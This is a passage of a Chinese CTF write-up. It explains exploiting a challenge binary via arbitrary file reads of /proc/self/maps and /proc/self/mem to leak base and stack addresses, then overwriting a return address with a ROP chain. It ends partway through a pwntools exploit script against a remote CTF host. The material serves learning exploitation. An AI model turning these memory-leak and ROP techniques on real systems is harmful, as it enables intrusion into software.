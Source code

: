 不能读flag，其他都行。这不就相当于任意文件读取吗，新技巧，关于[/proc/self/maps](https://www.jianshu.com/p/3fba2e5b1e17)文件。

Linux 内核提供了一种通过 /proc 文件系统，在运行时访问内核内部数据结构、改变内核设置的机制。proc文件系统是一个伪文件系统，它只存在内存当中，而不占用外存空间。读取/proc/self/maps可以得到当前进程的内存映射关系，通过读该文件的内容可以得到内存代码段基址。/proc/self/mem是进程的内存内容，通过修改该文件相当于直接修改当前进程的内存。该文件不能直接读取，需要结合maps的映射信息来确定读的偏移值。即无法读取未被映射的区域，只有读取的偏移值是被映射的区域才能正确读取内存内容。

看来读取/proc/self/maps就能直接知道基地址了。还有个问题，之前也提到了，clone实现了一种绝对的pie，静态程序里看到的偏移完全不管用了。我们还有一招，读取/proc/self/mem文件，搜索标记，以确定程序的栈地址。那么拿什么做标记呢？用于做标记的内容需要提前可知。直接拿local_58的内容做标记吧，也就是我们当前搜索的文件地址/proc/self/maps。当内存中出现/proc/self/maps，证明我们在MainLogic函数下。当我们在内存中搜索到这个字符串时，当前位置就是local_58的栈地址，由此，我们就可以计算出其他内容的栈地址。、

程序只能执行30次功能调用，之前已经用了4次，最后我们还需要用2次，那么我们搜索只能用24次，加上我们最多允许读取100000个字节的数据，由此，我们能搜索2400000个字节的内容。通过调试，观察local_58的栈地址，计算它与mmap_end的值的差值，做一个大致的范围,由于栈是从高往低增长的，因此，我们应该从mmap_end – offset ~ mmap_end搜索，其中offset是有关local_58在静态程序里的偏移。然而这个范围，真的很“大致”，可能会连续好几次都找不到栈帧。多试几次就行了。

假如成功的话，我们就得到了存放read的返回地址的栈地址，可以写ROP了。首先去case 1溢出local_58,更改local_40为read的返回地址；然后去case 4，将rop链放到read的返回地址。flag就出来了！

```python
from pwn import *  
isFound=False
while not isFound:
    sh = remote('61.147.171.105',49488)  

    open_s_plt = 3072
    read_s_plt = 2976
    puts_s_plt = 2816
    #pop rdi  
    #pop r15  
    #retn  
    pop_s_rsi = 0x1821  
    #pop rdi  
    #retn  
    pop_s_rdi = 0x1823  
    
    def enterRoom():  
        sh.sendlineafter('Do you want to help me build my room? Y/n?\n','Y')  
    
    def setPath(content):  
        sh.sendlineafter('5.Exit\n','1')  
        sh.sendlineafter('So man, what are you finding?\n',content)  
    
    def seekTo(pos):  
        sh.sendlineafter('5.Exit\n','2')  
        sh.sendlineafter('So, Where are you?\n',str(pos))  
    
    def readSomething(length):  
        sh.sendlineafter('5.Exit\n','3')  
        sh.sendlineafter('How many things do you want to get?\n',str(length))  
    
    def giveSomething(content):  
        sh.sendlineafter('5.Exit\n','4')  
        sh.sendlineafter('content:',content)  
    
    enterRoom()  
    setPath('/proc/self/maps')  
    readSomething(2000)  
    sh.recvuntil('You get something:\n')  
    #解析程序的加载地址，以及mmap内存出的地址  
    elf_base = int(sh.recvuntil(b'-').split(b'-')[0],16)  
    pop_rdi = elf_base + pop_s_rdi  
    pop_rsi = elf_base + pop_s_rsi  
    open_addr = elf_base + open_s_plt  
    read_addr = elf_base + read_s_plt  
    puts_addr = elf_base + puts_s_plt
    
    while True:  
```